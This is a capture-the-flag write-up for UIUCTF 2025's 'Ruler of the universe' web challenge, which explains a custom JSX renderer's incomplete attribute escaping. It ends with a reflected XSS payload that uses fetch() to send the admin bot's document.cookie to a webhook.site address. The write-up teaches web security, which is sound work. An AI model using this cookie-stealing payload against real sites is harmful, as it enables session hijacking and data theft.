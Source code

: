 ```yaml
---
title: "UIUCTF 2025 - Ruler of the universe"
date: 2025-07-28 15:00:00 +0200
categories: [UIUCTF 2025, Web]
tags: [Web]
description: Writeup for the first web challenge of the UIUCTF of 2025
---
```



## The write up

For this challenge, we have the source code of the web application. So let's take a look at it :

### Reading the source code

First, let's locate the flag :

We see an ```adminbot``` folder. That's my trigger for a web-client based challenge. Furthermore, we see : 


```typescript
await browser.setCookie({
    name: "flag",
    value: FLAG,
    domain: new URL(mainUrl).hostname,
    httpOnly: false,
    secure: true,
});
```
{: file="adminbot/index.ts" }

We can clearly see that we need to steal the bot cookie to get the flag. Note that the flag ```httpOnly``` is set to ```false``` so it makes our life easier since we can use javascript to retrieve the cookie. And who says javascript + cookies says XSS !


Our plan is :
- Find an exploitable XSS in the web app
- Submit the compromised URL to the bot
- Enjoy our flag

### Finding the XSS

We see from the source code that the web application has only two pages : ```home.tsx``` and  ```module.tsx```

After viewing ```index.tsx``` we see that ```home.tsx``` does not take any user input, just the admin bot url that we cannot control : 

``` react
"/": {
    GET: (req) => {
        const url = new URL(req.url);

        let adminUrl = "#";
        if (url.hostname == "localhost") {
            adminUrl = "http://localhost:3001";
        } else if (
            url.hostname.endsWith("ruler-of-the-universe.chal.uiuc.tf")
        ) {
            const currentHost = url.host;
            const instancePrefix =
                currentHost.split(`-`)[0] + `-` + currentHost.split(`-`)[1];
            adminUrl = `https://${instancePrefix}-adminbot-ruler-of-the-universe.chal.uiuc.tf/`;
        }

        return new Response(
            render(
                <App>
                    <Home adminUrl={adminUrl} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

But it's different for the ```/module``` path : 

``` react
"/module/:id": {
    GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
            render(
                <App>
                    <Module id={moduleId} crewMessage={crewMessage} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

We see two arguments are passed to ```module.tsx``` : ```moduleId``` and ```crewMessage```.

- ```moduleId``` is got from the parameters of the url but unfortunately it is cast into an int, so no injection possible here
- ```crewMessage``` is directly taken from the ```message``` parameter, we can play with it as we want

We have now only one option to investigate : the ```crewMessage``` variable.

We see two reflections of ```crewMessage``` in ```module.tsx``` :

``` react
<input
    id="message"
    name="message"
    type="text"
    class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
    placeholder={
        crewMessage
            ? `Update your message: ${crewMessage}`
            : "Enter a message for the crew"
    }
/>
```
{: file="challenge/src/app/pages/module.tsx" }

and : 

``` react
{crewMessage && <p>[13:10] Crew message: "{crewMessage}"</p>}
```
{: file="challenge/src/app/pages/module.tsx" }

### Understanding the rendering logic

At this point, we suspect the ```crewMessage``` value might be reflected unsafely in the DOM. But we need to understand how rendering is performed. Looking at ```challenge/src/my_jsx/index.ts```, we find a custom JSX renderer is used instead of React’s default output engine.

The rendering code looks like this:

``` typescript
if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
}
```
{: file="challenge/src/my_jsx/index.ts" }

This means any string used as a child node (like the second reflection of ```crewMessage```) will be automatically HTML-escaped using escapeHTML.

However, props are handled differently:
``` typescript
.map(([key, value]) => {
    if (typeof value === "boolean") {
        return value ? key : "";
    }
    return `${key}="${String(value).replace('"', "&quot;")}"`;
})
```
{: file="challenge/src/my_jsx/index.ts" }

This code only escapes the first ```"``` in ```&quot```, nothing else (unlike python). This makes the first reflection of ```crewMessage``` vulnerable !

### Making the payload

We know that we can control ```crewMessage``` with the ```message``` parameter on ```/module/id``` and that the first ```"``` will be escape.

We will try something like this : (not url encoded !)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>alert(1)</script>
```

Explanation : the first ```"``` got escaped but everything else is left as is, so we closed the input tag via ```">``` and finally write our javascript between ```<script>``` tag.

When visiting the url, we sucecssfully get a popup, we have a working XSS !

### Retrieving the flag

Now let's build a payload to steal the admin's cookie and retrieve our flag !

- We can access the cookies by document.cookie
- We need a way to send the cookie back to us

So, we will do a request to a server with the flag.

I personally use webhook.site but of course you're free to use whatever tool you want.

Here's the final url : (again not url encoded)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>fetch('https://webhook.site/419b01b1-ee9c-4b1a-8f13-46dc2f3fd620/?flag='+document.cookie)</script>
```

Submit the url (only the part from ```module/...```) to the admin bot and enjoy your flag !